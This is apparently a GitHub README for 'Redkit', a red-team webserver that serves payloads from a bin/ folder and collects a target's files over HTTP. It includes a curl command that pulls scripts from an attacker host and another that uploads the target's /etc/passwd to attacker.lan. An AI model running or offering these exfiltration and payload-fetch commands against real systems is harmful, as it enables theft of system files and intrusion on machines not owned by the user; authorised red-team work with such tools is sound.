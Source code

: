 # Redkit
A red team's toolkit webserver. Quickly spin up a webserver that can deliver your payloads curated to target architecture, and easily exfiltrate data over https.

## Current Features

Creates a webserver in the current directory that serves files out of `bin/`. Simply `curl http://attacker.lan:8080/bin/yourscripts.sh`.

Build an image of your target's filesystem by sending POST request multipart forms.
Example:
```
curl -F "/etc/passwd=@/etc/passwd" http://attacker.lan:8080/chroot
```
The result will be placed in `chroot/`.


## Roadmap
- bin follows symlinks and serves the actual file
- Add ability to send directory listings to the chroot, with proper file permissions
- Configure default programs linked to bin based on architecture
- Create basic shell scripts for sending and receiving files from target machine. (include in bin)